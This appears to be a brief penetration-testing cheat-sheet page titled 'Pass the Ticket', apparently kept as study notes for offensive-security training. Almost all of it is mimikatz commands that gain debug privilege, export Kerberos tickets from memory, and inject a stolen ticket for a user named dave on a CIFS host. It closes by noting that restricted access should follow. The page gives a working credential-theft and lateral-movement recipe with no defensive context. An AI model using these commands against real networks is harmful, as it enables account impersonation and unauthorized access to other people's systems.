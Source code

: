 # Pass the Ticket

{% code title="mimikatz #" %}
```
privilege::debug
sekurlsa::tickets /export
```
{% endcode %}

```
dir *.kirbi
```

{% code title="mimikatz # " %}
```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```
{% endcode %}

We should now have access to whatever was restricted
